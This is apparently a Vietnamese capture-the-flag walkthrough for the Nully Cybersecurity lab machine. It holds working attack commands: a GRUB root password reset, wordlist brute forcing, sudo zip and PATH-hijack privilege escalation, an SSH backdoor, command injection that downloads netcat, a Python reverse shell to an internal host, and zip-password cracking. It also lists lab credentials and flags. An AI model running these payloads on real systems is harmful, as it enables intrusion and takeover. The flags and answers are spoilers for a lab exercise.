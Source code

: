 # Nully CyberSecurity
***
## Cấu hình lại card mạng cho máy ảo Nully
Máy Nully để giao diện mạng ở chế độ NAT
Thực hiện reset lại máy ảo bằng cách sử dụng VM->Power->Restart Guest
Có thể phải thực hiện 1 vài lần cho tới khi hiện ra menu Boot như hình dưới. Chọn “Advanced options for Ubuntu” rồi sau đó nhấn phím “e” để cấu hình.
![](./image/image-1.png)
Sửa và cấu hình đoạn “ro recovery nomodeset” thành “rw init=/bin/bash” như hình sau
![](./image/image-2.png)
Ấn tổ hợp phím Ctrl – X (hoặc F10) để boot lại OS. Chọn “recovery mode”
![](./image/image-3.png)
Tại màn hình boot, sử dụng lệnh “passwd” để reset mật khẩu hiện tại.
Sau đó sử dụng lệnh exec /sbin/init để khởi động lại hệ thống.
![](./image/image-4.png)
Đăng nhập vào máy ảo Nully với toàn khoản root và mật khẩu vừa đặt lại ở bước trên.
Sử dụng lệnh “ip a” để kiểm tra giao diện mạng. Có thể thấy card ens33 chưa nhận thông tin cấu hình. Đó chính là lý do tại sao chúng ta không dò quét được địa chỉ IP của máy Nully.
![](./image/image-5.png)
Sử dụng lệnh "nano /etc/netplan/00-installer-config.yaml" để cấu hình card mạng
Trong trường hợp này tên card mạng đang bị sai nên chúng ta sửa "enp0s3" thành "ens33" (cho trùng với tên card mạng ở phía trên).
![](./image/image-6.png)
Sử dụng lệnh “reboot” để khởi động lại hệ thống. Sau đó dùng lệnh “ip a” để kiểm tra và thấy rằng giao diện ens33 đã nhận địa chỉ IP 192.168.132.149/24
![](./image/image-7.png)
***

## Flag1
Tìm được địa chỉ máy của victim: `192.168.132.149`
![](./image/image-8.png)
Tiến hành dò quét với nmap
![](./image/image-9.png)
Truy cập web
![](./image/image-10.png)
Theo rule không được attack port 80, 8000, 9000. Vậy ta phải attack vào 2 port 110 và 2222.
```sh
telnet 192.168.18.136 110
USER pentester
PASS qKnGByeaeQJWTjj2efHxst7Hu0xHADGO
LIST
```
![](./image/image-11.png)
Từ email ta có thể dự đoán user có liên quan từ Bob Smith. Lọc các từ liên quan đến bob để brute force password
`grep bobby /usr/share/wordlists/rockyou.txt > wordlist.txt`
![](./image/image-12.png)
Tìm được password: bobby1985, ssh vào kiểm tra sudo -l thấy rằng ta có khả năng chạy `check.sh` với tư cách là người dùng my2user.
![](./image/image-13.png)
Chạy thử script
![](./image/image-14.png)
Ta thêm /bin/bash để khi thực thi dưới quyền my2user sẽ tạo một shell
![](./image/image-15.png)
Tiến hành leo thang sang my2user. Sử dụng sudo -l thấy rằng có khả năng chạy lệnh `zip` với quyền root mà không cần mật khẩu
![](./image/image-16.png)
Tham khảo https://www.hackingarticles.in/linux-for-pentester-zip-privilege-escalation/ ta thấy có thể dùng payload để leo lên root
``` 
sudo zip 1.zip check.sh -T --unzip-command="sh -c /bin/bash"
``` 
![](./image/image-17.png)
> Flag1: 2c393307906f29ee7fb69e2ce59b4c8a 

Tạo backdoor bằng ssh để về sau ssh một phát lên root luôn chứ không phải leo qua my2user.
![](./image/image-18.png)
![](./image/image-19.png)
***
## Flag2
Pivoting đề cập đến một phương pháp được sử dụng bởi những người kiểm tra thâm nhập sử dụng hệ thống bị xâm nhập để tấn công các hệ thống khác trên cùng một mạng để tránh các hạn chế như cấu hình tường lửa, có thể cấm truy cập trực tiếp vào tất cả các máy. Ví dụ: nếu kẻ tấn công xâm phạm máy chủ web trên mạng công ty, thì kẻ tấn công có thể sử dụng máy chủ web bị xâm nhập để tấn công các hệ thống khác trên mạng hoặc trong nội bộ công ty. Những kiểu tấn công này thường được gọi là tấn công nhiều lớp. Pivoting còn được gọi là island hopping.
Cài đặt netdiscover trên MailServer
![](./image/image-20.png)
Sau khi cài netdiscover chạy lệnh netdiscover -i eth0 -r 172.17.0.0/16 để tìm ra các dịch vụ khác trong mạng nội bộ, /16 là vì subnetmask là 255.255.0.0
![](./image/image-21.png)
Chúng ta có thể bỏ qua 172.17.0.1 vì nó là Gateway
172.17.0.2 Là DataCenter
![](./image/image-22.png)
172.17.0.3 Là WebServer
![](./image/image-23.png)
![](./image/image-24.png)
172.17.0.5 Là MailServer
![](./image/image-25.png)
Vì 172.17.0.3 có port 80, nên ta sẽ attack vào đó để lên root web server.
Ta forward port về local để dễ attack trên máy mình luôn
`ssh -L 8000:172.17.0.3:80 root@192.168.132.149 -p 2222 -i id_rsa`
![](./image/image-26.png)
![](./image/image-27.png)
Sử dụng dirsearch để tìm các thư mục và tệp tin trên trang web
![](./image/image-28.png)
Truy cập file robots.txt xem
![](./image/image-29.png)
Truy cập /ping
![](./image/image-30.png)
Dùng param host để xem có gì lạ không
![](./image/image-31.png)
Ở đây dính lỗi command injection, do vậy ta đi tìm cách RCE.
Để làm được điều đó ta cần sử dụng netcat và cả 2 máy đều chưa có netcat. Với máy MailServer thì đơn giản chỉ cần tải về thôi
![](./image/image-32.png)
Nhưng với máy web server thì phải lòng vòng hơn, ta phải public file binary của nc lên để máy 172.17.0.3 tải về
![](./image/image-33.png)
http://localhost:8000/ping/ping.php?host=; wget http://172.17.0.5:8080/nc
http://localhost:8000/ping/ping.php?host=; chmod 777 nc
http://localhost:8000/ping/ping.php?host=; ls -la nc; pwd
![](./image/image-34.png)
http://localhost:8000/ping/ping.php?host=; /var/www/html/ping/nc 172.17.0.5 9000 -e /bin/bash
Thử dùng nc để tạo revshell nhưng không được.
Dùng payload python3
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.5",9000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
![](./image/image-35.png)
Có 2 user trong /etc/passwd ta cần chú ý đến
```
find / -type f -user 1001 2>/dev/null
find / -type f -user 1000 2>/dev/null
```
![](./image/image-36.png)
Đọc file secret của Oliver ta nhận được thông tin đăng nhập. SSH vào
***my password - 4hppfvhb9pW4E4OrbMLwPETRgVo2KyyDTqGF***
![](./image/image-37.png)
Vừa ta đã biết oscar là chủ sở hữu của python3 do vậy payload
`python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
ta sẽ leo sang oscar.
![](./image/image-38.png)
Đăng nhập vào oscar
![](./image/image-39.png)
Chương trình current-date trả về thời gian hiện tại
![](./image/image-40.png)
Do đã check strings nên mình đoán rằng nó chỉ call đến chương trình date và lấy kết quả in ra thôi
Kiểm tra `$PATH`
![](./image/image-41.png)
Bây giờ nếu mình gán đường dẫn /home/oscar vào `$PATH` export PATH=/home/oscar:`$PATH` thì `$PATH` mới sẽ thành như này
![](./image/image-42.png)
vì nó call đến date theo thứ tự trong $PATH nên ta đơn giản chỉ cần tạo program date chứa /bin/bash là khi chạy current-date nó sẽ excute /bin/bash với quyền root và ta có thể leo lên root rồi.
![](./image/image-43.png)
>FLAG2: 7afc7a60ac389f8d5c6f8f7d0ec645da
***
## Flag3
Kết nối tới DataCenter tải 2 file về
![](./image/image-44.png)
File .backup.zip bị khóa
![](./image/image-45.png)
Tải .backup.zip về local
![](./image/image-46.png)
![](./image/image-47.png)
```
zip2john backup.zip > hash.txt
john hash.txt
```
Tìm được mật khẩu là `1234567890`
![](./image/image-48.png)
SSH vào DataCenter với `donald:HBRLoCZ0b9NEgh8vsECS`
Tải linpeas về thông qua MailServer để tìm kiếm lỗ hổng và các cấu hình không an toàn
![](./image/image-49.png)
Sau khi chạy tìm được Unknown SUID binary của screen-4.5.0
![](./image/image-50.png)
Search tìm được script exploit https://www.exploit-db.com/raw/41154
![](./image/image-51.png)
>Flag3:6cb25d4789cdd7fa1624e6356e0d825b
